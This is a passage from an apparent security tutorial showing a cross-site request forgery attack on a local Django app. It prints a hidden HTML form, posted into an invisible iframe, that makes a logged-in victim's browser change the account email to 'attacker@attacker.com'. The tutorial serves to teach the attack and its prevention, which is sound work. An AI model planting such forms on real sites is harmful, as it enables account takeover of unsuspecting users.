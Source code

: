 ### Wouldn't it be neat if we could make the victim's browser send the request for us as if the victim has submitted the change email form?

Well guess what - **we can!** This is exactly what the hidden post form does in the malicious site. Let's have a second look at it to understand how exactly it tricks our browser to send the *sessionid* cookie.

```html
<form id="form" method="post" action="http://127.0.0.10:8000/accounts/change/email/" target="my_iframe" style="display:none">
    <input type="hidden" name="csrfmiddlewaretoken" value="mz4LR3Umv8hpB2Go4VLNmkRslgLIwdgc1zr7m7YYhiys8cGES7xZSOQVD0534fgt">
    <div class="alert alert-danger alert-dismissable alert-link" role="alert">
        <button class="close" type="button" data-dismiss="alert" aria-label="close">&#215;</button>
        Please enter another email.
    </div>
    <div class="form-group is-invalid">
        <label for="id_email">Email</label>
        <input type="email" name="email" value="attacker@attacker.com"
                    class="form-control is-invalid" placeholder="Email" title="" required id="id_email">
     <div class="invalid-feedback">Please enter another
         email.
     </div>
    </div>
    <input type="submit" class="btn btn-success">Change</button>
</form>
<iframe style="display:none" width="0" height="0" border="0" name="my_iframe" id="my_iframe"></iframe>
```

This form is a copy of the legitimate form from our Django app, with the only difference that the **fields have set values**.
(The csrfmiddlewaretoken field's value is randomly set. It can even be omitted and it won't make a difference)

We **post the form to the iframe** so that the page **does not refresh**. (tbh I could delete all the labels and css classes - it won't make any difference for the exploit).

#### Basically, we want the victim to change their email address to "attacker@attacker.com".

Now since I haven't set up the mailing service, I'll use the backend database for a point of reference to whether a reset token was generated.
Currently we have a single row containing the token used when registering the user:

![](/images/01-Secure-By-Default-66b257a1.png)

If the attack executes successfully, we would have a second generated token.

Unfortunately, if a the site is susceptible to CSRF, **the only thing a victim has to do is open a malicious website** which we can do by simply opening the site in another tab. (Note that the victim needs to be currently signed in (or have a valid sessionid cookie set) in the Django app in order to carry out the attack).
